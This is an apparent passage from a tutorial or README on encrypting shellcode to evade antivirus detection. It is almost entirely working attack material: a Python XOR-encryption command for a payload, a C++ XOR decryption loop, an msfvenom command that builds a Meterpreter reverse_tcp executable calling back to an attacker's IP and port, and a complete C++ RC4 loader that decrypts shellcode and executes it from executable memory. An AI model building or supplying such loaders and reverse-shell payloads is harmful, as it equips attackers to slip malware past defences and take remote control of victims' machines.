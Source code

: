 Encrypt the shellcode:

```
python xor.py -i payload.bin -o encrypted_shellcode.bin -k 10
```

Modify the C++ execution code to decrypt and execute the shellcode:

```
for (int i = 0; i < sizeof(buf); i++) {
    buf[i] ^= 10;  // XOR decrypt
}
```

Compile and execute.

or

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -e x86/xor_dynamic -f exe -o xor_encoded.exe
```

RC4 is another method for encrypting shellcode to evade detection. Below is a C++ implementation for decrypting and executing RC4-encrypted shellcode.

```
#include <Windows.h>
#include <stdio.h>

unsigned char s[256];
void rc4_init(unsigned char* key, int key_len) {
    int i, j = 0;
    for (i = 0; i < 256; i++) s[i] = i;
    for (i = 0; i < 256; i++) {
        j = (j + s[i] + key[i % key_len]) % 256;
        unsigned char temp = s[i];
        s[i] = s[j];
        s[j] = temp;
    }
}

void rc4_crypt(unsigned char* data, int data_len) {
    int i = 0, j = 0;
    for (int k = 0; k < data_len; k++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        unsigned char temp = s[i];
        s[i] = s[j];
        s[j] = temp;
        data[k] ^= s[(s[i] + s[j]) % 256];
    }
}

int main() {
    unsigned char key[] = "encryptionkey";
    rc4_init(key, sizeof(key)-1);

    unsigned char shellcode[] = { /* Your RC4 encrypted shellcode here */ };
    rc4_crypt(shellcode, sizeof(shellcode));

    void* exec = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof(shellcode));
    ((void(*)())exec)();
}
```
